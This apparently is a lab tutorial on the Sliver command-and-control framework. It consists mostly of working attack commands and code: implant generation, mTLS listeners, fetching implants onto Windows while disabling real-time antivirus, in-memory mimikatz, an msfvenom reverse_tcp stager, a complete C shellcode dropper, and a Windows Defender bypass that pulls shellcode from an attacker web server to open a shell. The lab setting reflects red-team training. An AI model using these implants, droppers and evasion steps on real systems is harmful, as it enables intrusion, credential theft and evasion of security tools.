Installation
https://sliver.sh/ https://github.com/BishopFox/sliver/releases
- Installation:
curl https://sliver.sh/install|sudo bashand then runsliver 
Install Sliver Server
- https://github.com/BishopFox/sliver/releases
wget https://github.com/BishopFox/sliver/releases/download/v1.7.3/sliver-server_linux-amd64- Before proceeding let’s unpack things:
./sliver-server unpack --force
Install Sliver Client
- https://github.com/BishopFox/sliver/releases/download/v1.7.3/sliver-client_linux-amd64
wget https://github.com/BishopFox/sliver/releases/download/v1.7.3/sliver-client_linux-amd64

Server-Client Connection
Let’s start by making a configuration file with sliver-server operator with this command
./sliver-server operator -l <server_ip> -n <name> -s <path> -P <permissions>
Then start server daemon with./sliver-server daemonAfter starting daemon, we will connect client with this configuration file- Importing config file with
./sliver-client import <config_file_path> - then start the client:
./sliver-client
Implant
Generating Session based Implant
generate -m <ip_of_sliver_client> -s Payloads/- The command will generate an implant into Payloads directory Generating Beacon based Implant
generate beacon -m <ip_of_sliver_client> -s Payloads/ -S 45 -J 15
Listeners
Types of Listeners: dns, mtls, http/https. wg
We will explore mtls. Start the listener with just mtls and list all listeners with job

Now that the job is running, import beacon and session into Windows usingiwr

and then run the binaries (make sure to disable real time anti virus download usingiwr)

We see the session and beacon on sliver-server. To view session usesessions and for beacon use beacons on sliver-server shell.

- In order to use session or beacon we’ve to use
use <id>to get into console. - For beacons use
tasksto list tasks. - For getting interactive session from Beacon: use
interactive - use
backgroundto get into server shell from session / beacon - use
execute -o <command/whoami>to run native command
Armory
In order to install Armory use armory install all

From using armory, we can directly run tools in-memory like mimikatz and so on
Stagers
Stageless Payloads are comprehensive, self-contained packages that include both the exploit and the complete code necessary to execute the selected task. These payloads are generated using the generated command. The file size of stageless paylaods is typically considerably larger than their staged counterparts.
Staged Payloads are generated as ‘shellcode’ and incorporated into a larger payload-known as the ‘dropper’. These payloads require a ‘handler’ to operate. Their handler serves the remaining payload necessary for complete functionality. Whilst stageless payloads are typically written to disk, staged payloads can operate entirely in memory, without ever touching the disk. Staged payloads require more outbound network connections.
Install mingw to compile windows binary: sudo apt install mingw-w64
Install metasploit nightly on the server instance: https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstallCreate a new profile: profiles new -m 192.168.133.128 -f shellcode win64_mtls
List profiles using profiles
Start Stage listener for the profile: stage-listener -u tcp://192.168.133.128:8443 -p win64_mtls
It will start a job, check active jobs using jobs
Generate the stager shellcode: generate stager --mtls -L 192.168.133.128 -f c -s Payloads
Create a Stager Profile. First, define the configuration for your second-stage payload using the profiles new command.
profiles new --mtls 192.168.133.128 --format shellcode win64_mtlsStart the listener that will serve the actual Sliver implant.
stage-listener --profile win64_mtls --url tcp://192.168.133.128:8443Note: Make sure your listener (for example,
mtlsorhttp) is also running in the background.
Generate the Stager Shellcode.Generate the initial stager stub. Sliver acts as a wrapper to create stager shellcode in formats such as c, csharp, python, or raw.
generate stager --mtls --lhost 192.168.133.128 --lport 8443 --save Payloads/ --format cOR we can use msfvenom to generate stager.
msfvenom -p windows/x64/custom/reverse_tcp LHOST=192.168.133.128 LPORT=8443 -f raw -o stager.binBecause the generated file is only a small stub (shellcode), it cannot be executed on its own. You will need to inject it or use a custom dropper (such as a C/C++ program or PowerShell script) that allocates memory, writes the stager shellcode, and executes it.
Next, use this dropper.c
/* Import the windows.h library to access:
* - VirtualAlloc
* - RtlMoveMemory
* - CreateThread
* - WaitForSingleObject */
#include <windows.h>
int main() {
/* generate stager -L <C2_SERVER_IP> -l <STAGER_PORT> -f c -s
* Payloads/ */
/* Calculate the size of 'buf' and store in 'buf_size' to be used by:
* - VirtualAlloc
* - RtlMoveMemory */
SIZE_T buf_size = sizeof(buf);
/* VirtualAlloc:
* - lpAddress: NULL (system chooses)
* - dwSize: buf_size (size of our shellcode)
* - flAllocationType: 0x00001000 (MEM_COMMIT)
* - flProtect: 0x40 (PAGE_EXECUTE_READWRITE) */
LPVOID addr = VirtualAlloc(NULL, buf_size, 0x00001000, 0x40);
/* RtlMoveMemory:
* - Destination: addr (our allocated memory)
* - Source: buf (our shellcode array)
* - Length: buf_size (amount to copy) */
RtlMoveMemory(addr, buf, buf_size);
/* CreateThread:
* - lpThreadAttributes: NULL (default)
* - dwStackSize: 0 (default)
* - lpStartAddress: addr (our shellcode)
* - lpParameter: NULL (no parameters)
* - dwCreationFlags: 0 (run immediately)
* - lpThreadId: NULL (we don't need this) */
HANDLE hHandle = CreateThread(NULL, 0, addr, NULL, 0, NULL);
/* WaitForSingleObject:
* - hHandle: hHandle (thread handle)
* - dwMilliseconds: INFINITE (0xFFFFFFFF) */
WaitForSingleObject(hHandle, 0xFFFFFFFF);
return 0;
}paste msfvenom generate payload just below main function after payloads and compile that to binary using x86_64-w64-mingw32-gcc dropper.c -o dropper.exe -Wall

The size of dropper is significantly lower that stageless implant.For some reason, for me, staged payloads is not working. Here’s the docs for it: https://sliver.sh/docs/?name=Stagers and here’s another good blog about it https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/
Bypass Windows Defender
Clone this repo: https://github.com/TeneBrae93/defender_bypass_with_sliver
From defender bypass directory run: python3 builder.py -l 192.168.133.128 -p 80
From Sliver shell:
- generate a stager at port 443:
generate --mtls 192.168.133.128:443 --os windows --arch amd64 --format shellcode - It will generate
.binfile usemv <generated>.bin shellc.binin defender bypass directory - Start job from sliver
mtls -L <C2_IP/192.168.133.128> -l <stager_port/443> - Start web server on port 80:
python3 -m http.server 80 - Transfer
stager.exeto windows and execute it.
What it will do it, after executing stager.exe, it will fetch shellc.bin from port 80 and it will execute that in-memory and will give us the shell.
From Windows:

From C2:
Good Resources